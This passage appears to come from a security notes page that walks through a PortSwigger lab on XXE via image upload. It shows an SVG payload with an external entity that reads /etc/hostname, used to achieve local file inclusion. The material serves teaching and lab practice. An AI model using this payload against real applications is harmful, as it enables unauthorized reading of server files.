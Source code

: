 ### SVG XXEI -> LFI

> _The example below is based on PortSwigger's_ [_Exploiting XXE via image file upload_](https://portswigger.net/web-security/xxe/lab-xxe-via-file-upload) _lab._

The application has an upload functionality within the comments section (Figure 9).

<figure><img src="../../../.gitbook/assets/web_xxe_3.png" alt=""><figcaption><p>Figure 9: Enumerating a potential XXE injection vulnerability.</p></figcaption></figure>

We can try injecting a out-of-the-box payload, such as [this](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/XXE%20Injection/README.md#xxe-inside-svg), and see what comes back (Figure 10).

{% code overflow="wrap" %}
```xml
<?xml version="1.0" standalone="yes"?>
<!DOCTYPE test [ <!ENTITY xxe SYSTEM "file:///etc/hostname" > ]>
<svg width="128px" height="128px" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" version="1.1">
   <text font-size="16" x="0" y="16">&xxe;</text>
</svg>
```
{% endcode %}

<figure><img src="../../../.gitbook/assets/web_xxe_4.png" alt=""><figcaption><p>Figure 10: Achieving LFI via XXE injection.</p></figcaption></figure>


[^1]: Point Of View